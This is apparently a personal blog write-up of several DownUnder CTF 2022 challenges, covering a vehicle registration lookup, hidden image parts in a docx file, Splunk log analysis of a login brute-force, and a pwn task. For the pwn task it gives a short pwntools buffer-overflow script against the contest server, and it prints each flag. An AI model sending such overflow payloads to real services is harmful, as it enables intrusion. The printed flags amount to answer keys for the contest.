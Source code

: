 ```yaml
---
layout: post
title: "DownUnder CTF 2022 Writeups"
date: 2022-09-25 17:15:00 +0530
categories: CTF
tags: september-2022
---
```


Hey fellow hackers, Welcome back to my another writeup. This week I played the **Downunder CTF 2022**. I wasn't able to solve many challenges since I was busy with some other tasks but I did manage to capture flags for some of the challenges. I managed to grab **350** points and my team ended up at **707th** position. Hope you enjoy my writeups and get to learn something new.

<br>
<h1><b><u>OSINT</u></b></h1>

<br><img src="/assets/images/downunder_ctf_2022/score.png" alt="score">

<br>
## Honk Honk

<br><img src="/assets/images/downunder_ctf_2022/honk_honk_1.png" alt="honk_honk">

<br>
As per this challenge, we have to figure out the date when's the CTP (Compulsory Third Party) insurance is about to be expired. There are many webistes out there to check the CTP repo status and the date when its about to expire. So, I decided to use the [Service NSW](https://free-rego-check.service.nsw.gov.au/) website to find the CTP rego status.

<br><img src="/assets/images/downunder_ctf_2022/honk_honk_2.png" alt="honk_honk">

<br>
I inputted the given car registration number which is **23HONK** and I got the complete details of the registration details. 

<br><img src="/assets/images/downunder_ctf_2022/honk_honk_3.png" alt="honk_honk">

<br><img src="/assets/images/downunder_ctf_2022/honk_honk_4.png" alt="honk_honk">

<br>
So, as you can see that the CTP insurance expire date is **19 July 2023**.

Therefore, the flag for this challenge would be:
> DUCTF{19/07/2023}

<br>
<h1><b><u>DFIR</u></b></h1>

<br>
## Dox Me

<br><img src="/assets/images/downunder_ctf_2022/dox_me_1.png" alt="dox_me">

<br>
In this challenge, we are give a **doxme** file and since the category of this challenge is **DFIR** so I assume that its related to the forensics. I downloaded the file and ran the **file** on it.

<br><img src="/assets/images/downunder_ctf_2022/dox_me_2.png" alt="dox_me">

<br>
`file` command revealed that this is a **Microsoft OOXML** and after some google research, I found out that this is a word **docx** file. I added the **.docx** extension to the file so that I can see what does the file contains.

<br><img src="/assets/images/downunder_ctf_2022/dox_me_3.png" alt="dox_me">

<br>
We can see the half part of the flag in the document but we need the complete flag before we can submit it. After this, I tried various methods to find other half of the flag such as running `strings` commands to find the complete flag on the docx file but then I remember that I can also unzip the docx file and extract the files.
```
unzip doxme.docx -d doxme
```

<br><img src="/assets/images/downunder_ctf_2022/dox_me_4.png" alt="dox_me">

<br>
After browsing through all these files, I came across two PNGs image files in `doxme/word/media` which is unusal since we only saw one image when we opened up the file. So, our flag must be in the other image. 

<br><img src="/assets/images/downunder_ctf_2022/dox_me_5.png" alt="dox_me">

<br>
Found the other half part of the flag. Now, our flag is completed:
> DUCTF{WOrd_D0Cs_Ar3_R34L1Y_W3ird}

<br>
## Shop-Setup&Disclaimer

<br><img src="/assets/images/downunder_ctf_2022/shop_setup_1.png" alt="shop_setup">

<br>
The provided json data file is not in the proper format so first of all I fixed the format of the data using the VS code editor.

<br><img src="/assets/images/downunder_ctf_2022/shop_setup_2.png" alt="shop_setup">

> IAgreeToTheTeasAndTheSeas

<br>
## Shop-Knock Knock Knock

<br><img src="/assets/images/downunder_ctf_2022/shop_knock_knock_knock_1.png" alt="shop_knock_knock_knock">

<br>
I loaded the data up in [Splunk Cloud](https://www.splunk.com/) instance. Now, its time to search & analyze the log data.

<br><img src="/assets/images/downunder_ctf_2022/shop_knock_knock_knock_2.png" alt="shop_knock_knock_knock">

<br>
Our objective is to find the email address of the ISP of the attackers. So, first of all, we have to find the IP address of the attacker. In our splunk cloud instance, we can see that the most requests came from the `58.164.62.91` IP address so this is probably the IP address of the attacker.

<br><img src="/assets/images/downunder_ctf_2022/shop_knock_knock_knock_3.png" alt="shop_knock_knock_knock">

<br>
Also, the time span between the login requests is very less as you can see below that the time span between the requests is between 2-3 seconds on average. So, this proves that this is the IP address of our attacker. 

<br><img src="/assets/images/downunder_ctf_2022/shop_knock_knock_knock_4.png" alt="shop_knock_knock_knock">

<br> The only step left to do is to find the ISP of this IP address and the email address of the ISP. So for this, I used [Whois Domain Tools](https://whois.domaintools.com/). This gave me the name of the ISP (**Telstra Internet**) and the email address of the ISP (**abuse@telstra.net**).

<br><img src="/assets/images/downunder_ctf_2022/shop_knock_knock_knock_5.png" alt="shop_knock_knock_knock">

> abuse@telstra.net

<br>
<h1><b><u>PWN</u></b></h1>

<br>
## Babyp(y)wn

<br><img src="/assets/images/downunder_ctf_2022/baby_pywn_1.png" alt="baby_pywn">

<br>
Baby Pwn is a pwn challenge in which I have to exploit the buffer overflow vulnerability in order to capture the flag. So, I installed `pwntools` and I wrote a simple script to fetch the flag.
```
from pwn import *

conn_obj = remote("2022.ductf.dev", 30021)
conn_obj.sendline(b"f" * 512 + b"DUCTF")

flag = conn_obj.recvline().decode()
print(flag)
```

<br>
After running the above script, I got the baby flag:
> DUCTF{C_is_n0t_s0_f0r31gn_f0r_incr3d1bl3_pwn3rs}

<br>
**So folks, that's it for this writeup. I will be back with more challenges in the next writeup. So, till then be safe and stay happy 😊**
